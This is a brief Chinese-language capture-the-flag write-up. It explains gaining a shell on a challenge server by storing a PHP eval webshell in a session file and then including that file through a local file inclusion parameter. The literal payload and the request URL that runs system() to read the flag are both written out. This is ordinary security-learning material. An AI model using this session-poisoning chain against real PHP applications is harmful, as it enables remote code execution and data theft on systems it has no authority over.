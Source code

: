 http://splitline.tw:8401

這題是使用寫入一句話木馬在session裡面
然後再用include 去執行這個session的file,就可以得到shell了

首先觀察session怎麼存資訊的,隨便打一些字在框框裡面案送出
可以發現http://splitline.tw:8401/?module=module/post.php
很明顯看得出來有使用include
這樣我們就可以使用LFI得到post.php 的原始碼
觀察session的寫入,其實就是在框框裡面打的字
回去再框框裡面寫入木馬<?php eval($_GET['code']); ?>
http://splitline.tw:8401/?module=/tmp/sess_d8b039c542cdf167bd50335843312ccb&&code=system(%27cd%20/;ls%20-la;cat%20flag_aff6136bbef82137%27);
得到flag